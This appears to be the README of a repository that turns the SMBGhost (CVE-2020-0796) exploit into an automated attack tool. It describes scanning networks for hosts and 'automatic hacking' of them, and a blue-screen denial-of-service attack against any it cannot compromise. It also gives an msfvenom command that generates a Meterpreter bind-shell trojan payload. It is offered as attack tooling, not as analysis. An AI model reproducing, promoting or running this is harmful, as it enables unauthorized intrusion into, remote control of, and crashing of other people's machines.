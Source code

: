 # CVE-2020-0796 SMBGhost exploit
# illustrate
	Add automation to the original code,
		automatically search for devices on the network for 443 or customize the scanning port for automatic hacking, 
			if it cannot be hacked, 
			it will perform a blue screen attack

The required dependency is the netaddr module, which only needs to be installed with pip
	`python3 -m pip install netaddr`
	or
	`pip install netaddr`

# remote trojan
If you need to generate remote payloads
	`msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f python -o shellcode.txt`


> This project is just a vulnerability modified into an automated script, the code is not completely written by myself.
